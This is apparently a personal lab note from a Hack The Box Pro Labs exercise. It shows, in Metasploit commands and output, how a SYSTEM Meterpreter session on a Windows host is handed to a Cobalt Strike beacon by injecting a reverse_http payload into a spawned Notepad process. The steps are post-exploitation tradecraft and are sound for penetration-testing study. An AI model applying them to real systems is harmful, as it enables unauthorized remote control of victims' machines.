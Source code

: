 ```yaml
---
created_date: 27 October 2023
updated_date: TBD
type: Windows
tags:
  - "#cobaltstrike"
  - "#meterpreter"
  - "#msfconsole"
---
```

url links:
https://www.cobaltstrike.com/blog/interoperability-with-the-metasploit-framework

note links: 
[[Penetration Testing v2/htb_pro_Labs/offshore/172.16.1.101 - CORP-WS02/Initial Access & Flag]]

setup listener on `cobaltstrike` with parameters below
`payload windows/beacon_http/reverse_http`
![[Pasted image 20231027152342.png]]
in already exploited session press `ctrl + z` in meterpreter shell to background the `shell`session if in a shell
```bash
c:\Users\wsadmin\Desktop>^Z                                                                                                                             
Background channel 1? [y/N]  y     
```
background the meterpreter session with `ctrl + z` again
```bash
meterpreter >                                                                                                                                           
Background session 1? [y/N]  y   
```
`sessions` to ensure that the session was properly backgrounded
```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > sessions             
                                                                                                                                                        
Active sessions                                                             
===============                                                             
                                                                            
  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WS02  10.10.14.39:8443 -> 10.10.110.3:37353 (172.16.1.101)
```
once backgrounded `use exploit/windows/local/payload_inject`
- `set PAYLOAD windows/x64/meterpreter/reverse_http` the x64 bit payload did not work for me, keep that in mind.
```bash
msf6 exploit(windows/local/payload_inject) > use exploit/windows/local/payload_inject  
```
`show options`
```bash
msf6 exploit(windows/local/payload_inject) > show options                                                                                               
                                                                                                                                                        
Module options (exploit/windows/local/payload_inject):                                                                                                  
                                                                                                                                                        
   Name         Current Setting  Required  Description                                                                                                  
   ----         ---------------  --------  -----------                                                                                                  
   AUTOUNHOOK   false            no        Auto remove EDRs hooks                                                                                       
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process                                     
   PPID         0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)                     
   SESSION                       yes       The session to run this module on                                                                            
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed  
```
`set lhost 10.10.14.39` // cobalt strike server // probably kali host
`set lport 80` // port that the cobalt beacon is listening on
`set DisablePayloadHandler True` // because we dont need a handler, cobalt beacon is handling it
`sessions` // to get active sessions to set it correctly
`set PAYLOAD windows/meterpreter/reverse_http` // setting correct payload
```bash
msf6 exploit(windows/local/payload_inject) > set lhost 10.10.14.39                                                                                      
lhost => 10.10.14.39                                                                                                                                    
msf6 exploit(windows/local/payload_inject) > set lport 80                                                                                               
lport => 80                                                                                                                                             
msf6 exploit(windows/local/payload_inject) > set DisablePayloadHandler True                                                                             
DisablePayloadHandler => true
msf6 exploit(windows/local/payload_inject) > set PAYLOAD windows/meterpreter/reverse_http                                                               
PAYLOAD => windows/meterpreter/reverse_http            
msf6 exploit(windows/local/payload_inject) > sessions                                                                                                   
                                                                                                                                                        
Active sessions                                                                                                                                         
===============                                                                                                                                         
                                                                                                                                                        
  Id  Name  Type                     Information                 Connection                                                                             
  --  ----  ----                     -----------                 ----------                                                                             
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ WS02  10.10.14.39:8443 -> 10.10.110.3:37353 (172.16.1.101)                                   
                                                                                                                                                        
msf6 exploit(windows/local/payload_inject) > set session 1                                                                                              
session => 1                                                                                                          
```
`unset proxy` 
- making sure that proxy isnt set so we can hit our teams server
```bash
msf6 exploit(windows/local/payload_inject) > unset proxy
Unsetting proxy...
```
`exploit -j` 
- detonate exploit and run in background

```bash
msf6 exploit(windows/local/payload_inject) > exploit -j                                                                                                 
[*] Exploit running as background job 1.                    
[*] Running module against WS02
[*] Spawned Notepad process 3020
[*] Injecting payload into 3020
[*] Preparing 'windows/meterpreter/reverse_http' for PID 3020

```
on as system beacon now :D 
![[Pasted image 20231027160104.png]]